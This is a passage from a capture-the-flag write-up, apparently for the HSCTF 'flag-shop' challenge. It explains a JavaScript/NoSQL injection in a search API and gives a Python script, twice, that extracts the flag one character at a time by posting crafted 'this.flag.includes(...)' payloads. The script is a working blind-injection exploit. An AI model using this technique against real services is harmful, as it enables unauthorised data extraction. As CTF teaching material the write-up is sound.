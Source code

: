 ```'); this.challenge.includes('```, interpreted as ```this.challenge.includes(''); this.challenge.includes('')``` by the program. The output is what we expected and desired, which is to return all results (like a ```' OR 1=1```). 
flag = "flag{"
search = f"kj'); this.flag.includes('{flag}') && this.challenge.includes('flag"


while True:
    for c in string.printable:
        try:
            print(c)
            if c not in ['*','+','.','?','|','&','$', '"', "'", "\\", "|", "/"]:
                search = f"kj'); this.flag.includes('{flag + c}') && this.challenge.includes('flag"
                payload = '{"search": "%s"}' % (search)
                print("connecting to CTF platform...")
                r = requests.post(url, data = payload, headers=headers, timeout=10)
                #print(payload)
                result = json.loads(r.text)
                print(result["results"])
                if bool(result["results"]):
                    print("Found one more char : %s" % (flag+c))
                    flag += c
        except:
            continue
```


### Final payload

```python
import requests
import urllib3
import string
import json
urllib3.disable_warnings()

url = "http://flag-shop.hsctf.com/api/search"
headers={'content-type': 'application/json'}
flag = "flag{"
search = f"kj'); this.flag.includes('{flag}') && this.challenge.includes('flag"


while True:
    for c in string.printable:
        try:
            if c not in ['*','+','.','?','|','&','$', '"', "'", "\\", "|", "/"]:
                search = f"kj'); this.flag.includes('{flag + c}') && this.challenge.includes('flag"
                payload = '{"search": "%s"}' % (search)
                r = requests.post(url, data = payload, headers=headers, timeout=10)
                result = json.loads(r.text)

                if bool(result["results"]):
                    print("Found one more char : %s" % (flag+c))
                    flag += c
                    
        except:
            continue
```
